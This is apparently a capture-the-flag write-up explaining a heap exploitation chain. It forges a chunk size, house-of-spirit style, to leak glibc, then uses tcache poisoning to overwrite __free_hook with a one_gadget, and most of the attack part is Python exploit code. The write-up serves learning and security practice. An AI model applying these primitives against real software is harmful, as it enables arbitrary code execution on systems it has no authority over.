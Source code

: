 ### From heap_leak to glibc_leak (baby house of spirit)

I'm not totally sure if this is the textbook house of spirit or not, but here
was my idea.  

Make enough chunks back to back that I know their entire length is more than
0x420 (easy to remember the tcache cut-off).

Use our heap leak and WWW to target the size_field of the first chunk in our
block of chunks.  Then free the first chunk  
which will make a large, fake, chunk that will go into the unsorted bin.

Alright here's my python:

```python  
#making a block of chunks adjacent to each other, each of size 48  
for i in range(25):  
   malloc(10+i, "fake-"+str(i), "fake2-"+str(i))  
#altogether these make 1200 bytes

#Now we setup our write-what-where via tcache poisoning  
malloc(35, "free1", "free1p")  
malloc(36, "free2", "free2p")  
free(35)  
free(36)

#this target is 16 bytes before the 10th chunk  
offset = 4952  
targethere = heapbase + offset

hack(36, p64(targethere))

malloc(37, "junk", "junk2")  
malloc(38, "junk", p64(0) + p64(0x4b1))  
#OK chunk 10 now looks like it has size 1200 (and prev_in_use flag set to 1)  
free(10)  
```

That just worked.  I was really pleased.  For about 5 minutes.

Getting the glibc leaks was easy enough, just had to debug and calculate some
offsets to get something like this:

```python  
glibcleak = heapleak(10) #glibc  
glibcbase = glibcleak - 2018272 #mainarena + 88 if I recall correctly  
oneg=0xe3b2e  
onegadget = glibcbase + oneg  
freehook = glibcleak + 8808  
```

I was so ready to just win at this point (time was running out) then I setup
the rest of the exploit just in case:

```python  
malloc(41, "free1", "free1a")  
malloc(42, "free2", "free2a")  
free(41)  
free(42)  
hack(42, p64(freehook-16))  
malloc(43, "junk", "junk2")  
malloc(44, "junk", p64(0) + p64(onegadget))  
free(43)  
```
